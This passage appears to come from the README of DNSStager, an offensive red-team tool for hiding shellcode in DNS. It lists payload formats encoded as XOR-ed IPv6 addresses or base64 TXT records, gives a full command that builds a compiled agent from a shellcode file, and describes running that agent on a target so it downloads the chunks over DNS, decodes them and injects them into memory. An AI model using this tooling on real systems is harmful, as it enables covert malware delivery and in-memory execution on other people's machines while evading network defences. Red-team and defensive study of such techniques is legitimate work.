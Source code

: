 To check the available DNSStager payloads, you can use `./dnsstager.py --payloads` to get the following results:

```
askar•/opt/redteaming/DNSStager(main⚡)» sudo ./dnsstager.py --payloads                                                                                                

[+] 6 DNSStager payloads Available

x64/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x64 C code
x86/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x86 C code
x64/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x64 GoLang code
x64/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x64 GoLang code
x86/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x86 GoLang code
x86/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x86 GoLang code
```
## Example of using DNSStager with IPV6

This example will start DNSStager to resolve your payload as `IPV6` using the domain `test.mydnsserver.live` with prefix `cloud-srv-` to generate compiled `x64 C` agent encoded with 0x10 as key:

`sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10
`  

And the output will be:

![Alt text](screenshots/Starting-DNSStager-x64-ipv6.png)

And to check if everything is working well, lets send DNS query to `cloud-srv-0.test.mydnsserver.live` to get the following:

![Alt text](screenshots/DNSStager-dig-test.png)

We can see that we received `f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b` as response which is the first 16 bytes of our encoded payload.

Then you can execute the agent `/tmp/a2.exe` (as set in using --output in the comand line) on the target machine and that will download all of the chunks required, decode them and inject them into memory for you.

# Resources

* [DNSStager v1.0 stable: stealthier code, DLL agent & much more](https://shells.systems/?p=2112).
* [Unveiling DNSStager: A tool to hide your payload in DNS](https://shells.systems/unveiling-dnsstager-a-tool-to-hide-your-payload-in-dns/).

# License

This project is licensed under the GPL-3.0 License - see the LICENSE file for details
